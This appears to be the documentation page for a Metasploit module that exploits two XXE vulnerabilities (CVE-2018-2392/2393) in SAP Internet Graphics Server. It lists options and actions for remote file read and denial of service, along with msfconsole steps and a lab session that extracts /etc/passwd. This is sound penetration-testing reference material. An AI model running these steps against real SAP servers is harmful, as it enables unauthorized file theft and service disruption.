## Vulnerable Application
This module exploits CVE-2018-2392 and CVE-2018-2393, two XXE vulnerabilities within the XMLCHART page
of SAP Internet Graphics Servers (IGS) running versions 7.20, 7.20EXT, 7.45, 7.49, or 7.53. These
vulnerabilities occur due to a lack of appropriate validation on the Extension HTML tag when
submitting a POST request to the XMLCHART page to generate a new chart.

Successful exploitation will allow unauthenticated remote attackers to read files from the server as the user
from which the IGS service is started, which will typically be the SAP admin user. Alternatively attackers
can also abuse the XXE vulnerability to conduct a denial of service attack against the vulnerable
SAP IGS server.

### Application Background
The Internet Graphics Service (IGS) where it provides a way infrastructure to enable developers to display graphics
in an internet browser with minimal effort. It has been integrated in several different SAP UI technologies
where it provides a way for data from another SAP system or data source to be utilized to generate
dynamic graphical or non-graphical output.

### Installation Steps
Steps to install and update the SAP IGS server can be found online on [this page][2].
Additional information on configuring the IGS server can be found [here][3].
Finally information on administering the IGS server can be found [here][4].

Once set up and configured, the instances will be vulnerable on the default HTTP port 40080.

## Verification Steps

  1. Start msfconsole
  1. Do: `workspace [WORKSPACE]`
  1. Do: `use auxiliary/admin/sap/sap_igs_xmlchart_xxe`
  1. Do: `set RHOSTS [IP]`
  1. Do: `set FILE [remote file name]`
  1. Do: `set action READ`
  1. Do: `check`
  1. Verify that the `check` method correctly identifies if the target is vulnerable or not.
  1. Do: `run`
  1. Verify that the contents of the file you specified were returned.

## Options

### FILE

File to read from the remote server. Example: `/etc/passwd`

### URIPATH

This is the path to the XMLCHART page of the SAP IGS server that is vulnerable to XXE.
By default it is set to `/XMLCHART`, however it can be changed if the SAP IGS server
was installed under a different path than the web root. For example if the SAP IGS
server was installed to the `/igs/` path under the web root, then this value would be
set to `/igs/XMLCHART`.

## Actions
```
   Name  Description
   ----  -----------
   READ  Remote file read
   DOS   Denial Of Service
```

## Scenarios

### Vulnerable SAP IGS release: 7.45 running on SUSE Linux Enterprise Server for SAP Applications 12 SP1

```
msf > workspace -a SAP_TEST
[*] Added workspace: SAP_TEST
[*] Workspace: SAP_TEST
msf > use auxiliary/admin/sap/sap_igs_xmlchart_xxe
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set RHOSTS 172.16.30.29
RHOSTS => 172.16.30.29
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set FILE /etc/passwd
FILE => /etc/passwd
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set action READ
action => READ
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set Proxies http:127.0.0.1:8080
Proxies => http:127.0.0.1:8080
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > set VERBOSE true
VERBOSE => true
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > options

Module options (auxiliary/admin/sap/sap_igs_xmlchart_xxe):

   Name     Current Setting      Required  Description
   ----     ---------------      --------  -----------
   FILE     /etc/passwd          no        File to read from the remote server
   Proxies  http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   172.16.30.29         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    40080                yes       The target port (TCP)
   SSL      false                no        Negotiate SSL/TLS for outgoing connections
   URIPATH  /XMLCHART            yes       Path to the SAP IGS XMLCHART page from the web root
   VHOST                         no        HTTP server virtual host


Auxiliary action:

   Name  Description
   ----  -----------
   READ  Remote file read


msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > check
[+] 172.16.30.29:40080 - The target is vulnerable. 172.16.30.29 running OS: SUSE Linux Enterprise Server for SAP Applications 12 SP1 returned a response indicating that its XMLCHART page is vulnerable to XXE!
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > run
[*] Running module against 172.16.30.29

[+] File: /etc/passwd content from host: 172.16.30.29
at:x:25:25:Batch jobs daemon:/var/spool/atjobs:/bin/bash
bin:x:1:1:bin:/bin:/bin/bash
daemon:x:2:2:Daemon:/sbin:/bin/bash
ftp:x:40:49:FTP account:/srv/ftp:/bin/bash
games:x:12:100:Games account:/var/games:/bin/bash
gdm:x:107:112:Gnome Display Manager daemon:/var/lib/gdm:/bin/false
haldaemon:x:101:102:User for haldaemon:/var/run/hald:/bin/false
lp:x:4:7:Printing daemon:/var/spool/lpd:/bin/bash
mail:x:8:12:Mailer daemon:/var/spool/clientmqueue:/bin/false
man:x:13:62:Manual pages viewer:/var/cache/man:/bin/bash
messagebus:x:100:101:User for D-Bus:/var/run/dbus:/bin/false
news:x:9:13:News system:/etc/news:/bin/bash
nobody:x:65534:65533:nobody:/var/lib/nobody:/bin/bash
ntp:x:74:108:NTP daemon:/var/lib/ntp:/bin/false
polkituser:x:104:107:PolicyKit:/var/run/PolicyKit:/bin/false
postfix:x:51:51:Postfix Daemon:/var/spool/postfix:/bin/false
pulse:x:105:109:PulseAudio daemon:/var/lib/pulseaudio:/bin/false
puppet:x:103:106:Puppet daemon:/var/lib/puppet:/bin/false
root:x:0:0:root:/root:/bin/bash
sshd:x:71:65:SSH daemon:/var/lib/sshd:/bin/false
suse-ncc:x:106:111:Novell Customer Center User:/var/lib/YaST2/suse-ncc-fakehome:/bin/bash
uucp:x:10:14:Unix-to-Unix CoPy system:/etc/uucp:/bin/bash
uuidd:x:102:104:User for uuidd:/var/run/uuidd:/bin/false
wwwrun:x:30:8:WWW daemon apache:/var/lib/wwwrun:/bin/false
admin:x:1000:100:admin:/home/admin:/bin/bash
j45adm:x:1001:1001:SAP System Administrator:/home/j45adm:/bin/csh
sybj45:x:1002:1001:SAP Database Administrator:/sybase/J45:/bin/csh
sapadm:x:1003:1001:SAP System Administrator:/home/sapadm:/bin/false
[+] File: /etc/passwd saved in: /Users/vladimir/.msf4/loot/20201007131238_SAP_TEST_172.16.30.29_igs.xmlchart.xxe_346716.txt
[*] Auxiliary module execution completed
msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.29  40080  tcp    http  open   SAP Internet Graphics Server (IGS)

msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                             References
---------                ----          ----                                             ----------
2020-10-07 10:12:37 UTC  172.16.30.29  SAP Internet Graphics Server (IGS) XMLCHART XXE  CVE-2018-2392,CVE-2018-2393,URL-https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf

msf auxiliary(admin/sap/sap_igs_xmlchart_xxe) > loot

Loot
====

host          service  type              name         content     info                  path
----          -------  ----              ----         -------     ----                  ----
172.16.30.29           igs.xmlchart.xxe  /etc/passwd  text/plain  SAP IGS XMLCHART XXE  /Users/vladimir/.msf4/loot/01619fd331da98b5ac4d-20201007131238_SAP_TEST_172.16.30.29_igs.xmlchart.xxe_346716.txt

```

[1]: https://download.ernw-insight.de/troopers/tr18/slides/TR18_SAP_IGS-The-vulnerable-forgotten-component.pdf
[2]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193dbeb5c617e2e10000000a42189b.html
[3]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e1939c9b5c617e2e10000000a42189b.html
[4]: https://help.sap.com/viewer/3348e831f4024f2db0251e9daa08b783/7.5.16/en-US/4e193988b5c617e2e10000000a42189b.html
